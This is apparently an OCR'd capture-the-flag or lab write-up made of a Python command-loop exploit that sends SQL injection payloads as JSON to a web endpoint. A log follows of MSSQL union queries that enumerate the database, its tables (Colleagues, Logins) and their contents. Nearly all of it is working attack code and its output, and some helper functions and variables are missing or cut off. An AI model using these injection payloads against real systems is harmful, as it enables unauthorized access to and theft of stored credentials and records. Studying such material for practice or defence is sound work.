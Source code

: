 ```python

def gen_sid(n):
    domain = ""

class exploit(cmd.Cmd):
    prompt = "pleaseSub> "

    def default(self, line):
        payload = gen_payload(line)
        # unicode in the data, will convert to accsi in response.
        # data = '{"name":"\u0041"}'
        # str + str, use data= in request, if dict, use json=
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header, proxies=proxy)
        print(req.text)

    def do_union(self, line):
        payload = "a' union select 1,2,3," + line + ", 5-- -"
        payload = gen_payload(payload)
        data = '{"name":"' + payload + '"}'
        req = requests.post(url, data=data, headers=header)
        try:
            js = json.loads(req.text)
            print(js[0]['email'])
        except:
            print(req.text)

exploit().cmdloop()
```



Data extract

```sql
# db name
Pleasesub > union db_name()
Hub_DB

# table name
Pleasesub > union (SELECT TOP 1 name FROM Hub_DB..sysobjects WHERE xtype = 'U')
Colleagues

# table count
Pleasesub > union (SELECT count(name) FROM Hub_DB..sysobjects WHERE xtype = 'U')
2

# not work.
Pleasesub > union (SELECT BOTTOM 1 name FROM Hub_DB..sysobjects WHERE xtype = 'U')
null

# TOP to get 1 table name; no top 2
Pleasesub > union (SELECT TOP 1 name FROM Hub_DB..sysobjects WHERE xtype = 'U')
Colleagues

# google search: Group_Concat mssql
## string_agg, single quote
## * not work.
Pleasesub > union (SELECT STRING_AGG(name,",") FROM Hub_DB..sysobjects WHERE xtype = 'U')
null
Pleasesub > union (SELECT STRING_AGG(name,',') FROM Hub_DB..sysobjects WHERE xtype = 'U')
Colleagues,Logins
Pleasesub > union (SELECT STRING_AGG(*,',') FROM Logins)
null

```